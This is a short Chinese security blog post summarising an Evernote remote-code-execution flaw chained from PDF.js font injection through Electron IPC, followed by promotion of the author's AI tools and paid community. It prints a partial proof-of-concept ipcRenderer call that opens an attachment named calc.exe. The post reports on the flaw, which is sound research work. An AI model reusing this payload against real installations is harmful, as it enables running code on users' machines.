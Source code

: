 #  Evernote 应用中PDF.js字体注入导致跨平台远程代码执行漏洞   
原创 bggsec  甲方安全建设   2024-07-11 08:00  
  
## 前言  
>   
> 一句话总结(点击原文跳转)  
  
  
主要描述了一个在Evernote应用中发现的关键性漏洞，该漏洞可以通过嵌入恶意PDF文件到笔记中，利用PDF.js的字体注入进行JavaScript代码执行，进而通过Electron的ipcRenderer和BrokerBridge实现跨进程通信，最终达到远程代码执行（RCE）的攻击链。  
  
>   
> 关键信息点  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icqm3vRUymZkDzC5njrov9XMbdIJSl0DyOC2NydInFzOIicJEOlk2cjgnbkdlqQu2fZl2RwcSnS2x7SSuqJXTojg/640?wx_fmt=png&from=appmsg "")  
```
//部分poc
window.top.electronApi.ipcRenderer.send('BrokerBridge', {action: 'Bridge/Call',id: '7e803824-d666-4ffe-9ebb-39ac1bd7856f',topics: 'boron.actions.openFileAttachment',data:{'resource': {'hash':'2f82623f9523c0d167862cad0eff6806','mime': 'application/octet-stream','rect': {'left': 68,'top': 155,'width': 728.1428833007812,'height': 43.42857360839844},'state': 'loaded','reference': '22cad1af-d431-4af6-b818-0e34f9ff150b','selected': true,'url': 'en-cache://tokenKey%3D%22AuthToken%3AUser%3A245946624%22+f4cbd0d2-f670-52a7-7ea7-5720d65614fd+2f82623f9523c0d167862cad0eff6806+https://www.evernote.com/shard/s708/res/54938bad-ecb2-3aaa-6ad0-a9b7958d402f','isInk': false,'filesize': 45056,'filename': 'calc.exe'},'url':'en-cache://tokenKey%3D%22AuthToken%3AUser%3A245946624%22+f4cbd0d2-f670-52a7-7ea7-5720d65614fd+2f82623f9523c0d167862cad0eff6806+https://www.evernote.com/shard/s708/res/54938bad-ecb2-3aaa-6ad0-a9b7958d402f','noteGuid': 'f4cbd0d2-f670-52a7-7ea7-5720d65614fd','appName': ''}})
```  
>   
> 某知名安全大V，昨日印象笔记被黑  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icqm3vRUymZkDzC5njrov9XMbdIJSl0DynjEx8PW9cicEcNUawO9Hib7ETlRkB7luo8Ix8muek3EeG4paZU4LBMPw/640?wx_fmt=png&from=appmsg "")  
>   
> 延伸阅读  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icqm3vRUymZkDzC5njrov9XMbdIJSl0DybaODOiaLVTcD8wUumHCJ7DZnnCT4EjT3TGGUicSicK616ibSEbmebmWMcw/640?wx_fmt=png&from=appmsg "")  
>   
> 最近的小玩意  
  
- AI重构安全热点  
  
- ![](https://mmbiz.qpic.cn/sz_mmbiz_png/icqm3vRUymZkDzC5njrov9XMbdIJSl0DyNUp02icA9baEZpASXH7LupChWE1dhlicc7dGU2WMt1BNiaPMcg7Tv0Z4A/640?wx_fmt=png&from=appmsg "")  
  
- Ai重构知识库+智能书签+导航  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icqm3vRUymZkDzC5njrov9XMbdIJSl0DyWGLFwfIgUdL5fVA6F33Eu0yic66ww0OczarsWtGoR3TLCNYVnXajCAg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icqm3vRUymZkDzC5njrov9XMbdIJSl0DyLaCfov9GGZA9cd6icIYuP5IKw4vs78vawr5Ex9T6p2KcDpuGLaGqmPw/640?wx_fmt=png&from=appmsg "")  
- 花费, 周均一亿多token  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icqm3vRUymZkDzC5njrov9XMbdIJSl0DyLoDJwXHiar1y4ibZjsxCMA43I7AU3MmgUMsy6eWyUdibY4VZ0ibVDsXAWw/640?wx_fmt=png&from=appmsg "")  
- 自动化输出方式(快讯星球+微博)  
  
```
部分能力后期会开放，比如知识库/迪斯科等，星球身份应该是后期各服务的通行证
AI目前比较贵，为了可持续发展，设置了星球的地板价25元(系统最低价)
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/icqm3vRUymZkDzC5njrov9XMbdIJSl0DyssgvAvnnTufYJpqzek9hAYycEWzUP57qRkLa7Gf458C8E6PFf3khTg/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icqm3vRUymZkDzC5njrov9XMbdIJSl0Dyp64ZtycStwT7conLOibhhcQvhYuoapl9xPBCMP8icCbZvzvr222LJAng/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/icqm3vRUymZkDzC5njrov9XMbdIJSl0Dy1FFdGtVj8hagUkBUP6NBSQFj0YN4hgDfRTegalIlckxxLNI4DXJFuA/640?wx_fmt=jpeg&from=appmsg "")  
- 沟通群(过期添加red4blue,备注加群)  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icqm3vRUymZkDzC5njrov9XMbdIJSl0DyficsetRouXGwCnztEwb9kSNXUEtJmwdHTcojhqF7yiboxl2iaAMdFaGuw/640?wx_fmt=png&from=appmsg "")  
  
  
  
